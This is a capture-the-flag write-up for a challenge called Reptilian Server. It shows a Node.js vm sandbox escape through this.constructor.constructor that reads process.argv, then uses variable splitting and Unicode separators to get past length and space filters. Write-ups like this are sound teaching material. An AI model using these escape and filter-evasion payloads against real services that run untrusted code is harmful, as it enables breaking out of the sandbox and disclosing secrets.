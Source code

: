# Intended Solution to Reptilian Server

The provided hint referencing wanting to know how to start the server is indicative that the flag will be stored in the 
process' command line arguments. In order to access those, you must escape the VM which runs your commands. A google search for "escape node js vm" will reveal many ways this can be done. The payload I used to perform this escape is below:

```javascript
console.log((this.constructor.constructor('return (process.argv)'))())
```

However, to blend in with the Reptilians we need to shorten this payload and remove the spaces from it. 

To shorten the payload, we can break it up into sections by storing parts of the payload in variables, and send it as three separate commands, like so:

```javascript
let b='return (process.argv)'
let a=this.constructor.constructor(b);
console.log(a())
```

That works because the server will see the first command, and its length is less than the maximum command length. Then we can reference the made variable in the next lines.
However, shortening in this manner requires using some spaces. 

In order to write this without any spaces, use a combination of String.fromCharCode and a unicode character "Paragraph Separator" (U+2029) 
to rewrite the payload without spaces, solving the challenge (Note in the below the spaces between 'let' and the variable names are the paragraph separators).

```javascript
let b='return+String.fromCharCode("160")+(process.argv)'
let a=this.constructor.constructor(b);
console.log(a())
```